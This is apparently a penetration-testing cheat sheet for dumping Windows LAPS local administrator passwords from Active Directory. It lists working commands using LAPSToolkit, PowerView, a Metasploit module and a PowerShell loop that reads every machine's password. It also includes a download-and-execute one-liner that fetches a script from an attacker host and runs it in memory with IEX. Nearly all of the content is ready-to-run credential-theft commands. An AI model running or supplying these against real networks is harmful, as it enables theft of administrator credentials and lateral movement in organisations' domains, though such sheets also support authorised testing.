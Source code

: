# LAPS

% laps, password

#plateform/windows  #target/remote #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 

## get laps passwords (powershell)
```
Get-LAPSPasswords -DomainController <ip_dc> -Credential <domain>\<user> | Format-Table -AutoSize
```

## laps toolkit - download
https://github.com/leoloobeek/LAPSToolkit

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/LAPSToolkit.ps1') | IEX; Import-Module .\LAPSToolkit.ps1
```

## laps toolkit - Get laps computer and passwords
```powershell
Import-Module .\LAPSToolkit.ps1; Get-LAPSComputers
```

## laps toolkit - find LAPS Delegated Groups
```powershell
Import-Module .\LAPSToolkit.ps1; Find-LAPSDelegatedGroups
```

## laps toolkit - Find users with Extended rights
```powershell
Import-Module .\LAPSToolkit.ps1; Find-AdmPwdExtendedRights
```


##  get laps password (powerview)
```powershell
Get-DomainObject <computer> -Properties "ms-mcs-AdmPwd",name
```

##  get laps password (metasploit)
```
use windows/gather/credentials/enum_laps
```

## get all machine passwords (powershell)
```
foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
```




